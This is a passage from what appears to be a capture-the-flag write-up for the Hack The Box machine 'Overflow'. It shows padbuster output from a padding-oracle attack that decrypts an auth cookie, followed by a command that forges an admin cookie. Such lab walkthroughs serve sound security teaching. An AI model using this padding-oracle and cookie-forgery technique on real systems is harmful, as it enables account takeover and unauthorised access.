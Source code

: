 ```bash
[+] Success: (92/256) [Byte 2]
[+] Success: (115/256) [Byte 1]

Block 1 Results:
[+] Cipher Text (HEX): 6218f9b3d2e036fc
[+] Intermediate Bytes (HEX): 85a3bc5facf42f07
[+] Plain Text: user=cau

Use of uninitialized value $plainTextBytes in concatenation (.) or string at /usr/bin/padbuster line 361, <STDIN> line 1.
*** Starting Block 2 of 2 ***

[+] Success: (6/256) [Byte 8]
[+] Success: (205/256) [Byte 7]
[+] Success: (28/256) [Byte 6]
[+] Success: (47/256) [Byte 5]
[+] Success: (79/256) [Byte 4]
[+] Success: (8/256) [Byte 3]
[+] Success: (232/256) [Byte 2]
[+] Success: (241/256) [Byte 1]

Block 2 Results:
[+] Cipher Text (HEX): ecdde3d239c1a1a8
[+] Intermediate Bytes (HEX): 071ffeb4d5e731fb
[+] Plain Text: e

-------------------------------------------------------
** Finished ***

[+] Decrypted value (ASCII): user=caue

[+] Decrypted value (HEX): 757365723D6361756507070707070707

[+] Decrypted value (Base64): dXNlcj1jYXVlBwcHBwcHBw==

-------------------------------------------------------
```

We have successfully decrypted the cookie! The cipher value is `user=caue`, which was the username registered. Now that we know the cipher value syntax, we’ll use _padbuster_ to generate a new cipher for admin:
```bash
$ padbuster http://overflow.htb/login.php "8NDZLZGXTnJiGPmz0uA2%2FOzd49I5waGo" 8 -cookie "auth=8NDZLZGXTnJiGPmz0uA2%2FOzd49I5waGo" -encoding 0 -plaintext "user=admin"

...[snip]...

-------------------------------------------------------
** Finished ***

[+] Encrypted value is: BAitGdYuupMjA3gl1aFoOwAAAAAAAAAA
-------------------------------------------------------
```
